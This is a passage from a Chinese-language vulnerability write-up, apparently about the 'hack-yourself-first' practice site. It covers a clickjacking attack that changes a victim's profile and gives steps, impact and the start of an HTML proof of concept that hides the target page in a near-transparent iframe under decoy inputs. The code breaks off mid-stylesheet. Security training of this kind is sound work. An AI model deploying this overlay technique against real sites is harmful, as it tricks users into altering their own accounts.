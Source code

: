 将 `$email` 更新为相应的值，例如，如果你的电子邮件是 "example@hacker.com"，则你的电子邮件将显示为 "example&#64;hacker&#46;com"，但它将被解码为 "example@hacker.com"。

# 21 使用 Clickjacking 编辑个人资料

摘要：利用点击劫持漏洞来更改用户的个人资料。

复现步骤：创建一个账户并进入编辑个人资料页面。然后创建以下 HTML 文件（点击劫持 PoC）并运行该文件。接着输入下面的详细信息并重新加载 hack-yourself-first 网站的编辑个人资料页面。你可以看到你之前在创建的 HTML 文件中输入的内容。

影响：由于这个漏洞，攻击者可以更改受害者的个人资料，受害者会相信这些更改是他们自己做的。

点击劫持 PoC:

```html
<!DOCTYPE html>
<html>
<head>
<title>Clickjacking to change username</title>
</head>

<body>

<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }
    .ok {
        position:absolute;
        top:310px;
        left:220px;
        z-index: 1;
    }
    
    .animal { 
        position:absolute;
        top:210px;
        left:30px;
        z-index: 1;
    }
    
       .bird { 
        position:absolute;
        top:260px;
        left:50px;
        z-index: 1;
    }
    
    .input1 { 
        position:absolute;
        top:205px;
        left:210px;
        z-index: 1;
    }
    
      .input2 { 
        position:absolute;
        top:255px;
        left:210px;
        z-index: 1;
    }
```